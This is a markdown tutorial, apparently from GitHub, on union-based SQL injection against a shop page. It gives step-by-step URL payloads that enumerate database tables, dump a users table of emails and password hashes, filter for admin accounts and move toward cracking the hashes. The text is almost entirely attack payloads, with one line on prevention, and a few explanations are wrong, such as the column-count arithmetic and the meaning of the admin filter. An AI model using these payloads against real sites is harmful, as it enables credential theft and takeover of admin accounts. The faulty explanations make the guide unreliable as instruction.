 # Simple SQL injection example


1 - Find a vulnerbale URL: `example.com/shop.php?item=3'`
	You are looking for an error.

2 - Use `order by X` in the URL to get the injection points: `example.com/shop.php?item=3 order by 100 --`

3 - Go up and down to get the table count: `example.com/shop.php?item=3 order by 10 --`

  We're looking for an "unknown column count" error, but it will still show a correct layout when we get the right number.
	We get the final URL (last number with an error): `example.com/shop.php?item=3 order by 7 --`
  
  Then minus 1 which gives us 6 (because it starts at 0, not 1)
	
4 - Now we add the `union all select` statement to get the attack vectors:

```example.com/shop.php?item=-3 union all select 1,2,3,4,5,6 --```

Some content on the page will be replaced with a number above. We'll inject our code into that number.
	
5 - The next step is to start gathering information about the server / site setup. 
  We will assume there is only one injection point here, so test them seperatly: ```example.com/shop.php?item=-3 union all select 1, version() ,3,4,5,6 --```
  
and: ```example.com/shop.php?item=-3 union all select 1, user() ,3,4,5,6 --```

Neither are a great hit so we'll carry on enumeration...
	
6 - Now we need to know the names of the tables to proceed by using the `group_concat` statement:

```example.com/shop.php?item=-3 union all select 1, group_concat(table_name) ,3,4,5,6  from information_schema.tables where table_schema=database() --```
  
  This simply says: "gimme the concatenated table_names from the tables list". The table names will be shown where the injectednumber was. Click three times to highlight the entire string and paste it into notepad so you can search for useful fields.
  
  Both the `users` and `Login` tables look interesting...
	
  Note: table / row / column names are case-sensitive!
	
7 - So let's try to get the `users` table with a similar URL:

```example.com/shop.php?item=-3 union all select 1, group_concat(column_name) ,3,4,5,6  from information_schema.columns where table_name = 0x7573657273 --```

We just change table to column and change table_schema to `table_name = 0x("users" in hex)`.

The page should now show the columns for the `users` table. The rows are the actual users info... username, email, password, etc.

Again, copy and paste to notepad to make searching easier.
	
These columns look interesting:

```ID,Email,Password,admin```
	
8 - So let's see what's in the above fields with a similar statement to the previous two:
	
```example.com/shop.php?item=-3 union all select 1, group_concat(ID,0x3a,Email,0x3a,Password,0x3a,admin) ,3,4,5,6 from users --```
	
`0x3a` will be replaced with `:` to help separating the data easier. 

We also replced the `from information_schema` junk with just `from tablename`
	
This will return a lot of data but we can filter it further to find an admin login...
	
9 - Finding an admin account is always preferred, so we can start filtering using a "where" statement...

```example.com/shop.php?item=-3 union all select 1, group_concat(ID,0x3a,Email,0x3a,Password,0x3a,admin) ,3,4,5,6  from users where admin <> '' --```

Suffixing `where admin <> ''` means "show me all rows where admin permissions isn't under or over anything"... < means under, > means over and '' being a blank value.
	
10 - Tada. Copy and paste the account info into notepad and see what we got...

	113:diane@example.com:13c910179746854acd8c4dbedfc3610f:Y
	or
	ID: 113
	Email: diane@example.com
	Password: 13c910179746854acd8c4dbedfc3610f
	admin: Y (yes, I'm an admin account)
	
Not all hashes are easy to crack or even valid (it could be salted or use a hidden concatenated value). Most of the users on this site have easy to crack passwords but not the admin

Sometimes the MD5 hash will also work as the password, but not always.

Preventing SQL injection attacks is fairly simple. All user data should be sanitized and never assumed to be clean!

## Thanks
That was a quick and dirty guide to SQL injection. It's a very old technique, not new, and mostly patched. Hope you enjoyed it, and feel free to let me know what you think...

## Social

[Hackersploit Discord](https://discord.gg/hackersploit)
